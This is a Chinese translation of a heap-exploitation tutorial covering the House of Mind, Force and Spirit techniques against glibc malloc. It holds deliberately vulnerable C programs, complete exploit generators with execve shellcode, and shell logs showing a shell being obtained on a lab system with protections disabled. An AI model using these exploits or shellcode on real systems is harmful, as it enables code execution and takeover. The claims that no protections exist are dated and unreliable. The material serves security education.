






# 使用 Malloc Maleficarum 的堆溢出

> 译者：[飞龙](https://github.com/wizardforcel)
> 
> 原文：[Heap overflow using Malloc Maleficarum](https://sploitfun.wordpress.com/2015/03/04/heap-overflow-using-malloc-maleficarum/)

预备条件：

1.  [理解 glibc malloc](http://blog.csdn.net/maokelong95/article/details/51989081)

从 2004 年末开始，glibc malloc 变得更可靠了。之后，类似 unlink 的技巧已经废弃，攻击者没有线索。但是在 2005 年末，Phantasmal Phatasmagoria 带来了下面这些技巧，用于成功利用堆溢出。

*   House of Prime
*   House of Mind
*   House of Force
*   House of Lore
*   House of Spirit

## House of Mind

这个技巧中，攻击者欺骗 glibc malloc 来使用由他伪造的 arena。伪造的 arena 以这种形式构造，unsorted bin 的 fd 包含`free`的 GOT 条目地址 -12。因此现在当漏洞程序释放某个块的时候，`free`的 GOT 条目被覆盖为 shellcode 的地址。在成功覆盖 GOT 之后，当漏洞程序调用`free`，shellcode 就会执行。

预备条件：下面是成功应用 House of Mind 的预备条件，因为不是所有堆溢出漏洞程序都可以使用这个技巧来利用。

1.  在块的地址之前，需要一系列 malloc 调用 – 当对齐到内存区域中`HEAP_MAX_SIZE`结果的倍数的时候，内存区域由攻击者控制。这是伪造的`heap_info`结构所在的内存区域。伪造的`heap_info`的 arena 指针`ar_ptr`会指向伪造的 arena。因此伪造的 arena 和伪造的`heap_info`的内存区域都能由攻击者控制。

2.  一个块，它的大小字段（以及它的 arena 指针 – 预备条件 1）由攻击者控制，应该已释放。

3.  上述空闲块的下一个块应该不是 top 块。

漏洞程序：这个程序满足上述预备条件。

```
/* vuln.c
 House of Mind vulnerable program
 */
#include <stdio.h>
#include <stdlib.h>

int main (void) {
 char *ptr = malloc(1024); /* First allocated chunk */
 char *ptr2; /* Second chunk/Last but one chunk */
 char *ptr3; /* Last chunk */
 int heap = (int)ptr & 0xFFF00000;
 _Bool found = 0;
 int i = 2;

 for (i = 2; i < 1024; i++) {
   /* Prereq 1: Series of malloc calls until a chunk's address - when aligned to HEAP_MAX_SIZE results in 0x08100000 */
   /* 0x08100000 is the place where fake heap_info structure is found. */
   /* [1] */
   if (!found && (((int)(ptr2 = malloc(1024)) & 0xFFF00000) == \
     (heap + 0x100000))) {
     printf("good heap allignment found on malloc() %i (%p)\n", i, ptr2);
     found = 1;
     break;
   }
 }
 /* [2] */ 
 ptr3 = malloc(1024); /* Last chunk. Prereq 3: Next chunk to ptr2 != av->top */
 /* User Input. */
 /* [3] */
 fread (ptr, 1024 * 1024, 1, stdin);

 /* [4] */
 free(ptr2); /* Prereq 2: Freeing a chunk whose size and its arena pointer is controlled by the attacker. */
 /* [5] */
 free(ptr3); /* Shell code execution. */
 return(0); /* Bye */
}
```

上述漏洞程序的堆内存：



漏洞程序的行`[3]`是堆溢出发生的地方。用户输入储存在块 1 的`mem`指针处，大小共计 1MB。所以为了成功利用堆溢出，攻击者提供了下面的用户输入（列出顺序相同）。

*   伪造的 arena
*   垃圾数据
*   伪造的 `heap_info`
*   Shellcode

利用程序：这个程序生成了攻击者的数据文件：

```
/* exp.c
Program to generate attacker data.
Command:
     #./exp > file
*/
#include <stdio.h>

#define BIN1 0xb7fd8430

char scode[] =
/* Shellcode to execute linux command "id". Size - 72 bytes. */
"\x31\xc9\x83\xe9\xf4\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\x5e"
"\xc9\x6a\x42\x83\xeb\xfc\xe2\xf4\x34\xc2\x32\xdb\x0c\xaf\x02\x6f"
"\x3d\x40\x8d\x2a\x71\xba\x02\x42\x36\xe6\x08\x2b\x30\x40\x89\x10"
"\xb6\xc5\x6a\x42\x5e\xe6\x1f\x31\x2c\xe6\x08\x2b\x30\xe6\x03\x26"
"\x5e\x9e\x39\xcb\xbf\x04\xea\x42";

char ret_str[4] = "\x00\x00\x00\x00";

void convert_endianess(int arg)
{
        int i=0;
        ret_str[3] = (arg & 0xFF000000) >> 24;
        ret_str[2] = (arg & 0x00FF0000) >> 16;
        ret_str[1] = (arg & 0x0000FF00) >> 8;
        ret_str[0] = (arg & 0x000000FF) >> 0;
}
int main() {
        int i=0,j=0;

        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* fd */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* bk */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* fd_nextsize */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* bk_nextsize */
        /* Fake Arena. */
        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* mutex */
        fwrite("\x01\x00\x00\x00", 4, 1, stdout); /* flag */
        for(i=0;i<10;i++)
                fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* fastbinsY */
        fwrite("\xb0\x0e\x10\x08", 4, 1, stdout); /* top */
        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* last_remainder */
        for(i=0;i<127;i++) {
                convert_endianess(BIN1+(i*8));
                if(i == 119) {
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* preserve prev_size */
                        fwrite("\x09\x04\x00\x00", 4, 1, stdout); /* preserve size */
                } else if(i==0) {
                        fwrite("\xe8\x98\x04\x08", 4, 1, stdout); /* bins[i][0] = (GOT(free) - 12) */
                        fwrite(ret_str, 4, 1, stdout); /* bins[i][1] */
                }
                else {
                        fwrite(ret_str, 4, 1, stdout); /* bins[i][0] */
                        fwrite(ret_str, 4, 1, stdout); /* bins[i][1] */
                }
        }
        for(i=0;i<4;i++) {
                fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* binmap[i] */
        }
        fwrite("\x00\x84\xfd\xb7", 4, 1, stdout); /* next */
        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* next_free */
        fwrite("\x00\x60\x0c\x00", 4, 1, stdout); /* system_mem */
        fwrite("\x00\x60\x0c\x00", 4, 1, stdout); /* max_system_mem */
        for(i=0;i<234;i++) {
                fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* PAD */
        }
        for(i=0;i<722;i++) {
                if(i==721) {
                        /* Chunk 724 contains the shellcode. */
                        fwrite("\xeb\x18\x00\x00", 4, 1, stdout); /* prev_size  - Jmp 24 bytes */
                        fwrite("\x0d\x04\x00\x00", 4, 1, stdout); /* size */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* fd */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* bk */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* fd_nextsize */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* bk_nextsize */
                        fwrite("\x90\x90\x90\x90\x90\x90\x90\x90" \
                        "\x90\x90\x90\x90\x90\x90\x90\x90", 16, 1, stdout);  /* NOPS */
                        fwrite(scode, sizeof(scode)-1, 1, stdout); /* SHELLCODE */
                        for(j=0;j<230;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                        continue;
                } else {
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* prev_size */
                        fwrite("\x09\x04\x00\x00", 4, 1, stdout); /* size */
                }
                if(i==720) {
                        for(j=0;j<90;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                        fwrite("\x18\xa0\x04\x08", 4, 1, stdout); /* Arena Pointer */
                        for(j=0;j<165;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                } else {
                        for(j=0;j<256;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                }
        }
        return 0;
}
```

漏洞程序的堆内存，在攻击者生成数据作为用户输入之后：



在攻击者生成数据作为用户输入之后，glibc malloc 执行下列事情，当漏洞程序的行`[4]`执行时：

*   正在释放的堆的 arena 由访问`arena_for_chunk`获取。

    *   `arena_for_chunk`：如果没有设置`NON_MAIN_ARENA (N)`位，会返回主 arena。如果设置了，会通过将块地址对齐到`HEAP_MAX_SIZE`的倍数，来访问相应的`heap_info`结构。之后，获取到的`heap_info`结构的arena 指针会返回。我们这里，`NON_MAIN_ARENA`位由攻击者设置，因此会获取正在释放的块的`heap_info`结构（`0x08100000`）。攻击者也覆盖了（所获取的`heap_info`结构的）arena 指针，使其指向伪造的 arena，也就是说，`heap_info`的`ar_ptr`等于伪造的 arena 的基址（`0x0804a018`）。
*   使用 arena 指针和块地址作为参数调用`_int_free`。我们这里，arena 指针指向了伪造的 arena。因此伪造的 arena 和块地址作为参数传递给了`_int_free`。

    *   伪造的 arena：下面是伪造区域的受控字段，需要由攻击者覆盖：

        *   Mutex - 应该为 unlocked 状态。
        *   Bins - unsorted bin 的 fd 应该包含`free`的 GOT 条目地址。
        *   Top - Top 地址应该不等于正在释放的块地址。
        *   系统内存 - 系统内存应该大于下一个块大小。
    *   `_int_free()`

        *   如果块不是 mmap 分配的，要获取锁。我们这里块不是 mmap 分配的，伪造的 arena 的互斥锁获取成功。
        *   合并：

            *   查看上一个块是否空闲，如果空闲则合并。我们这里上一个块已分配，所以不能向后合并。
            *   查看下一个块是否空闲，如果空闲则合并。我们这里下一个块已分配，所以不能合并。
        *   将当前空闲块放进 unsorted bin 中。我们这里伪造的 arena 的 unsorted bin 的 fd 包含`free`的 GOT 条目地址 -12，它被复制给了`fwd`值。之后，当前空闲快的地址会复制给`fwd->bk`。`bk`位于`malloc_chunk`偏移 12 处，因此， 12 会加到`fwd`值，也就是`free - 12 + 12`。所以现在`free`的 GOT 条目会变为当前空闲块的地址。由于攻击者已经将他的 shellcode 放进当前空闲块了，现在开始，无论何时调用`free`，攻击者的 shellcode 都会执行。

使用攻击者生成的数据文件，作为用户输入执行漏洞程序会执行 shellcode，像这样：

```
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hom$ gcc -g -z norelro -z execstack -o vuln vuln.c -Wl,--rpath=/home/sploitfun/glibc/glibc-inst2.20/lib -Wl,--dynamic-linker=/home/sploitfun/glibc/glibc-inst2.20/lib/ld-linux.so.2
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hom$ gcc -g -o exp exp.c
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hom$ ./exp > file
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hom$ ./vuln < file
ptr found at 0x804a008
good heap allignment found on malloc() 724 (0x81002a0)
uid=1000(sploitfun) gid=1000(sploitfun) groups=1000(sploitfun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
```

保护：现在，house of mind 技术不起作用了，因为 glibc malloc 已经变得更加可靠。它添加了下面的检查来防止使用 house of mind 的堆溢出。

*   块破坏：unsorted bin 的第一个块的`bk`指针应该指向 unsorted bin。如果不是，glibc malloc 会抛出块破坏错误。

    ```
    if (__glibc_unlikely (fwd->bk != bck))
    {
        errstr = "free(): corrupted unsorted chunks";
        goto errout;
    }
    ```

## House of Force

这个技巧中，攻击者滥用 top 块的大小，并欺骗 glibc malloc 使用 top 块来服务于一个非常大的内存请求（大于堆系统内存大小）。现在当新的 malloc 请求产生时，`free`的 GOT 表就会覆盖为 shellcode 地址。因此从现在开始，无论`free`何时调用，shellcode 都会执行。

预备条件：为了成功应用 house of force，需要下面三个 malloc 调用：

*   Malloc 1：攻击者应该能够控制 top 块的大小。因此这个分配的块，也就是物理上在 top 块之前的块上，应该能产生堆溢出。
*   Malloc 2：攻击者应该能够控制 malloc 请求的大小。
*   Malloc 3：用户输入应该能复制到这个所分配的块中。

漏洞程序：这个程序满足上述要求

```
/*
House of force vulnerable program. 
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h> 

int main(int argc, char *argv[])
{
        char *buf1, *buf2, *buf3;
        if (argc != 4) {
                printf("Usage Error\n");
                return;
        }
        /* [1] */
        buf1 = malloc(256);
        /* [2] */
        strcpy(buf1, argv[1]); /* Prereq 1 */
        /* [3] */
        buf2 = malloc(strtoul(argv[2], NULL, 16)); /* Prereq 2 */
        /* [4] */
        buf3 = malloc(256); /* Prereq 3 */
        /* [5] */
        strcpy(buf3, argv[3]); /* Prereq 3 */

        /* [6] */
        free(buf3);
        free(buf2);
        free(buf1);
        return 0;
}
```

上述漏洞程序的堆内存：



漏洞程序的行`[2]`是堆溢出发生的地方。因此为了成功利用堆溢出，攻击者需要提供下面的命令行参数：

*   `argv[1]` – 需要复制到第一个 malloc 块的 shellcode + 填充 + top 块大小。
*   `argv[2]` – 第二个 malloc 块的大小参数。
*   `argv[3]` – 复制到第三个 malloc 块的用户输入。

利用程序：

```
/* Program to exploit executable 'vuln' using hof technique.
 */
#include <stdio.h>
#include <unistd.h>
#include <string.h>

#define VULNERABLE "./vuln"
#define FREE_ADDRESS 0x08049858-0x8
#define MALLOC_SIZE "0xFFFFF744"
#define BUF3_USER_INP "\x08\xa0\x04\x08"

/* Spawn a shell. Size - 25 bytes. */
char scode[] =
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main( void )
{       
        int i;
        char * p;
        char argv1[ 265 ];
        char * argv[] = { VULNERABLE, argv1, MALLOC_SIZE, BUF3_USER_INP, NULL };

        strcpy(argv1,scode);
        for(i=25;i<260;i++)
                argv1[i] = 'A';

        strcpy(argv1+260,"\xFF\xFF\xFF\xFF"); /* Top chunk size */
        argv[264] = ''; /* Terminating NULL character */ 

        /* Execution of the vulnerable program */
        execve( argv[0], argv, NULL );
        return( -1 );
}
```

漏洞程序的堆内存，一旦攻击者的命令行参数复制到堆中：



使用攻击者的参数，下面的事情会发生：

行`[2]`会覆盖 top 块大小：

*   攻击者的参数（`argv[1] – Shellcode + Pad + 0xFFFFFFFF`）会复制到堆缓冲区`buf1`。但是由于`argv[1]`大于 256，top 块的大小会覆盖为`0xFFFFFFFF`。

行`[3]`使用 top 块代码，分配了一个非常大的块。

*   非常大的块的分配请求发生在分配之后，新的 top 块应该位于`free`的 GOT 条目之前 8 个字节处。所以另一个 malloc 请求（行`[4]`）会帮助我们覆盖`free`的 GOT 地址。
*   攻击者的参数（`argv[2] – 0xFFFFF744`)会作为大小参数，传递给第二个 malloc 调用（行`[3]`）。大小参数使用下面的公式计算：

    *   `size = ((free-8)-top)`
    *   其中

        *   `free`是可执行文件`vuln`的 GOT 条目，也就是`free = 0x08049858`。
        *   `top`是当前 top 块（在第一个 malloc `[1]`之后），也就是`top = 0x0804a108`。
    *   因此`size = ((0x8049858-0x8)-0x804a108) = -8B8 = 0xFFFFF748`。
    *   当`size = 0xFFFFF748`时，我们的任务，将新的 top 块放置在`free`的 GOT 条目之前 8 个字节处，像这样完成了：

        *   `(0xFFFFF748+0x804a108) = 0x08049850 = (0x08049858-0x8)`
    *   但是，当攻击者传递大小参数`0xFFFFF748`时，glibc malloc 将这个大小转换为可用大小`0xFFFFF750`。因此，现在新的 top 块大小应该位于`0x8049858`而不是`0x8049850`。因此攻击者应该传递`0xFFFFF744`作为大小参数，而不是`0xFFFFF748`，因为他会转换为我们所需的可用的大小`0xFFFFF748`。

在行`[4]`中：

*   现在由于行`[3]`中的 top 块指向`0x8049850`，一个 256 字节的内存分配请求会使 glibc malloc 返回`0x8049858`，他会复制到`buf3`。

在行`[5]`中：

将`buf1`的地址复制给`buf3`，会导致 GOT 覆盖。因此`free`的调用（行`[6]`）会导致 shellcode 执行。

使用攻击者的命令行参数执行漏洞程序，会执行 shellcode，像这样：

```
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hof$ gcc -g -z norelro -z execstack -o vuln vuln.c -Wl,--rpath=/home/sploitfun/glibc/glibc-inst2.20/lib -Wl,--dynamic-linker=/home/sploitfun/glibc/glibc-inst2.20/lib/ld-linux.so.2
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hof$ gcc -g -o exp exp.c
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hof$ ./exp 
$ ls
cmd  exp  exp.c  vuln  vuln.c
$ exit
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hof$ 
```

保护：直到现在，没有添加针对这个技巧的任何保护。这个技巧能帮助我们利用堆溢出，即使它使用最新的 glibc 编译。

## House of Spirit

在这个技巧中，攻击者欺骗 glibc malloc 来返回一个块，它位于栈中（而不是堆中）。这允许攻击者覆盖储存在栈中的返回地址。

预备条件：下面是用于成功利用 house of spirit 的预备条件，因为不是所有堆溢出漏洞程序都可以使用这个技巧利用。

*   一个缓冲区溢出，用于覆盖一个变量，它包含块地址，由 glibc malloc 返回。
*   上面的块应该是空闲的。攻击者应该能够控制这个空闲块的大小。它以这种方式控制，空闲块的大小等于下一个分配块的大小。
*   Malloc 一个块。
*   用户输入应该能够复制到上面所分配的块中。

漏洞程序：这个程序满足上述要求

```
/* vuln.c
House of Spirit vulnerable program
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void fvuln(char *str1, int age)
{
   char *ptr1, name[44];
   int local_age;
   char *ptr2;
   [1]local_age = age; /* Prereq 2 */

   [2]ptr1 = (char *) malloc(256);
   printf("\nPTR1 = [ %p ]", ptr1);
   [3]strcpy(name, str1); /* Prereq 1 */
   printf("\nPTR1 = [ %p ]\n", ptr1);
   [4]free(ptr1); /* Prereq 2 */

   [5]ptr2 = (char *) malloc(40); /* Prereq 3 */
   [6]snprintf(ptr2, 40-1, "%s is %d years old", name, local_age); /* Prereq 4 */
   printf("\n%s\n", ptr2);
}

int main(int argc, char *argv[])
{
   int i=0;
   int stud_class[10];  /* Required since nextchunk size should lie in between 8 and arena's system_mem. */
   for(i=0;i<10;i++)
        [7]stud_class[i] = 10;
   if (argc == 3)
      fvuln(argv[1], 25);
   return 0;
}
```

上述漏洞程序的栈布局：



漏洞程序的行`[3]`是缓冲区溢出发生处。因此为了成功利用漏洞程序，攻击者需要提供下面的命令行参数：

```
argv[1] = Shell Code + Stack Address + Chunk size
```

利用程序：

```
/* Program to exploit executable 'vuln' using hos technique.
 */
#include <stdio.h>
#include <unistd.h>
#include <string.h>

#define VULNERABLE "./vuln"

/* Shellcode to spwan a shell. Size: 48 bytes - Includes Return Address overwrite */
char scode[] =
        "\xeb\x0e\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xb8\xfd\xff\xbf\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90\x90\x90\x90\x90\x90\x90";

int main( void )
{
        int i;
        char * p;
        char argv1[54];
        char * argv[] = { VULNERABLE, argv1, NULL };

        strcpy(argv1,scode);

        /* Overwrite ptr1 in vuln with stack address - 0xbffffdf0\. Overwrite local_age in vuln with chunk size - 0x30 */
        strcpy(argv1+48,"\xf0\xfd\xff\xbf\x30"); 

        argv[53] = '';

        /* Execution of the vulnerable program */
        execve( argv[0], argv, NULL );
        return( -1 );
}
```

使用攻击者的参数之后，上述漏洞程序的栈布局：



使用攻击者的参数，让我们看看返回地址如何覆盖。

行`[3]`：缓冲区溢出

*   这里攻击者的输入`argv[1]`复制到了字符缓冲区`name`中。因为攻击者的输入大于 44，变量`ptr1`和`loacl_age`被栈地址和块大小覆盖。

    *   栈地址（`0xbffffdf0`） – 当行`[5]`执行时，攻击者欺骗 glibc malloc 来返回这个地址。
    *   块大小（`0x30`） – 当行`[4]`执行时，这个块大小用于欺骗 glibc malloc。

行`[4]`：将栈区域添加到 glibc malloc 的 fastbin 中。

*   `free()`调用了`_int_free()`。现在在缓冲区溢出之后，`ptr1 = 0xbffffdf0`（而不是`0x804aa08`）。被覆盖的`ptr1`作为参数传递给`free`。这欺骗 glibc malloc 来释放栈上的内存区域。被释放的这个栈区域的大小，位于`ptr1-8+4`，被攻击者覆盖为`0x30`。因此 glibc malloc 将这个块看做 fast 块（因为`48 < 64`），并将释放得快插入 fast binlist 的前面，位于下标 4。

行`[5]`：获取（在行`[4]`添加的）栈区域

*   malloc 请求 40 由`checked_request2size`转换为可用大小 48。由于可用代销 48 属于 fast 块，对应的 fast bin（位于下标 4）会被获取。fast binlist 的第一个块被溢出，并返回给用户。第一个块是在行`[4]`执行过程中添加的栈区域。

行`[6]`：覆盖返回地址

*   将攻击者的参数`argv[1]`复制到栈区域（由 glibc malloc 返回），它从`0xbffffdf0`位置开始。`argv[1]`的前 16 个字节是：

    *   `\xeb\x0e`：JMP 14 字节。
    *   `\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41`：填充。
    *   `\xb8\xfd\xff\xbf`：储存在栈上的返回地址会被这个值覆盖。因此在`fvuln`执行之后，EIP 是`0xbffffdb8` – 这个位置包含 JMP 指令，之后是派生 shell 的 shellcode。

使用攻击者的参数执行漏洞程序会执行 shellcode，像这样：

```
sploitfun@sploitfun-VirtualBox:~/Dropbox/sploitfun/heap_overflow/Malloc-Maleficarum/hos$ gcc -g -fno-stack-protector -z norelro -z execstack -o vuln vuln.c -Wl,--rpath=/home/sploitfun/glibc/glibc-inst2.20/lib -Wl,--dynamic-linker=/home/sploitfun/glibc/glibc-inst2.20/lib/ld-linux.so.2
sploitfun@sploitfun-VirtualBox:~/Dropbox/sploitfun/heap_overflow/Malloc-Maleficarum/hos$ gcc -g -o exp exp.c
sploitfun@sploitfun-VirtualBox:~/Dropbox/sploitfun/heap_overflow/Malloc-Maleficarum/hos$ ./exp 

PTR1 = [ 0x804a008 ]
PTR1 = [ 0xbffffdf0 ]

AAAAAAAAAA����1�Ph//shh/bin��P��S�
$ ls
cmd  exp  exp.c  print  vuln  vuln.c
$ exit
sploitfun@sploitfun-VirtualBox:~/Dropbox/sploitfun/heap_overflow/Malloc-Maleficarum/hos$
```

保护：直到现在，没有添加针对这个技巧的任何保护。这个技巧能帮助我们利用堆溢出，即使它使用最新的 glibc 编译。

House of Prime: TBU

House of Lore: TBU

注意：出于演示目的，所有漏洞程序都不使用下列 Linux 保护机制编译：

*   ASLR
*   NX
*   RELRO（重定向只读）

## 参考

*   [The Malloc Maleficarum](http://packetstormsecurity.com/files/view/40638/MallocMaleficarum.txt)